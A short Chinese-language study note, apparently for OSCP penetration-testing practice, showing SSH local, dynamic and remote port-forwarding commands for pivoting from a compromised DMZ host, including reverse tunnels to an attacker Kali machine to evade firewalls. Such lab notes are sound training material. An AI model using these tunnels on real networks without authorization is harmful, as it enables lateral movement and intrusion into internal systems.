 
## SSH 本地端口转发：

DMZ第一台主机已经拿下，有第二台主机的ssh账密，一二之间通过ssh隧道通信，访问一的445可以访问到第三台的445端口

命令：

```
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

![](/oscp_img/Pasted%20image%2020240314213959.png)


## SSH动态端口转发


ssh -qTfnN -D 7080 kali@VPS地址

DMZ第一台主机已经拿下，有第二台主机的ssh账密，一二之间通过ssh隧道通信，通过一的9999可以访问到第二台主机的任何路由

命令：

```
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

![](/oscp_img/Pasted%20image%2020240314214449.png)

## SSH 远程端口转发

主要是防火墙规避，主机和攻击机通过ssh外联建立隧道，可以访问到DMZ第二台主机的映射端口

需要kali开启ssh

命令：

```
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```

![](/oscp_img/Pasted%20image%2020240314214634.png)

## SSH远程动态端口转发

上面一种场景的增强版，socks隧道：

需要kali开启ssh

命令：

```
ssh -N -R 9998 kali@192.168.118.4
```
![](/oscp_img/Pasted%20image%2020240314214953.png)

## sshuttle 工具
